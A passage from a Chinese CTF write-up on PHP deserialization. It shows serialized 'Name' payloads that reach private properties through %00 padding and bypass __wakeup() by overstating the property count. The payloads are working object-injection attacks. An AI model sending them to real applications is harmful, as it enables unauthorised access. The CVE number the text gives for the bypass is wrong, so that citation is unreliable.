 ```
O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

`"Nameusername"`字符串的长度为12，但是结果却显示的14。这是因为`username`属性为`private`，`private`类型的成员变量在序列化时，变量名中会加上类名和两个不可见字符(`\0`)，因此`password`也同理。

所以，我们发送的请求中的`select`参数应为(`%00`表示不可见字符)

```
O:4:"Name":2:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

然而`class.php`中有一个魔术方法`__wakeup()`，它将`username`变量赋值为`"guest"`，使得无法通过之后显示flag的判断逻辑。一般情况下，它会在反序列化函数`unserialize()`构造完对象之后执行。

> 若被反序列化的变量是一个对象，在成功地重新构造对象之后，PHP 会自动地试图去调用 [__wakeup()](https://www.php.net/manual/zh/language.oop5.magic.php#object.wakeup) 成员函数（如果存在的话）。																				

所以，需要想办法绕过`__wakeup()`函数。这就是CVE-2016-1724的内容。

当被反序列化的字符串中的属性个数大于对象本身的属性个数时，`__wakeup()`函数会被绕过不被执行。

所以，最终我们需要执行的请求参数为

```
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

![image-20210305162217584](image-20210305162217584.png "image-20210305162217584")

- [https://www.shuzhiduo.com/A/KE5QrVD4dL/](https://www.shuzhiduo.com/A/KE5QrVD4dL/)
- [https://www.cnblogs.com/wangtanzhi/p/12193930.html](https://www.cnblogs.com/wangtanzhi/p/12193930.html)

- [php反序列化函数](https://www.php.net/manual/zh/function.unserialize.php)












